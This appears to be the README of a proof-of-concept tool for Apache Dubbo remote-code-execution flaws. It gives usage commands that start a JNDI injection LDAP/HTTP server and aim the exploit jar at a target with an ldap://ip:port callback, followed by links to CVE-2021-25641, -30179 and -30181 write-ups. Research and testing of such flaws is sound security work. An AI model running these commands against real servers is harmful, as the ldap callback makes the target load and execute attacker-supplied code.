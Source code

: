 
## 用法
```bash
启动ldap服务和HTTP服务：

java -jar C:\Users\Administrator\Downloads\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc

java -jar Dubbo-PoC-Spring-2.7.7.jar ip port ldap://ip:port/test
```


## CVEs

- [Dubbo多个远程代码执行漏洞 by rebeyond](https://mp.weixin.qq.com/s/B1bltJcdrH-B-iN2p0csqA)
- [【漏洞通告】Apache Dubbo多个高危漏洞（CVE-2021-25641等）](https://mp.weixin.qq.com/s/vUdsgOSymEzWeAXkfK3Abw)
- https://wx.zsxq.com/dweb2/index/topic_detail/818554241114512
- [Dubbo Consumer脚本注入RCE - CVE-2021-30181](https://threedr3am.github.io/2021/05/30/Dubbo%20Consumer%E8%84%9A%E6%9C%AC%E6%B3%A8%E5%85%A5RCE%20-%20CVE-2021-30181/)
- [CVE-2021-30179 - Dubbo Pre-auth RCE via Java deserialization in the Generic filter](https://threedr3am.github.io/2021/06/01/CVE-2021-30179%20-%20Dubbo%20Pre-auth%20RCE%20via%20Java%20deserialization%20in%20the%20Generic%20filter/)
- https://securitylab.github.com/research/apache-dubbo/
- https://securitylab.github.com/advisories/GHSL-2021-097-apache-dubbo/
- [浅析Dubbo Kryo/FST反序列化漏洞（CVE-2021-25641）](https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/)
- https://checkmarx.com/blog/technical-blog/the-0xdabb-of-doom-cve-2021-25641/
- [dubbo中使用hessian_http/dubbo协议注入内存马](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/dubbo%E6%B3%A8%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC/)
- https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202130179.java
